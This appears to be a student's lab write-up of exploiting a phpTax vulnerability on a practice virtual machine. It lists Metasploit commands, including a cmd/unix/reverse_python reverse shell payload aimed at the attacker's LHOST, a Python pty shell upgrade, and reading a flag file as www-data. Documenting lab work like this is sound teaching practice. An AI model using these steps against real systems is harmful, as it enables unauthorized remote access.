



# Exploitation

After identifying and researching the phpTax exploit through Exploit-DB, I opened the Metasploit Framework and searched for the phpTax vulnerability using:

```bash
search phptax
```

One relevant Metasploit module was identified.

I used `info 0` to review the module and its requirements. I then selected the exploit using `use 0` and configured a compatible payload.

The exploit did not successfully execute without specifying a suitable payload. I used the following reverse Python payload:

```bash
set payload payload/cmd/unix/reverse_python
```

I then configured the `LHOST` and `RHOSTS` values for my system and the target. After reviewing the configuration with show options, I executed the exploit.

The exploit successfully established access to the virtual machine.

## Initial Access

I verified the compromised account using:

```bash
whoami
```
The command returned:

```bash
www-data
```

I then spawned an interactive shell using Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After obtaining an interactive shell, I searched the web server directories for the user-level objective. The `local.txt` file was located under `/var/www/`.

The file was then read using the cat command. The flag value is not included in this repository in accordance with the course requirements.

Compromised user: `www-data`

##Evidence




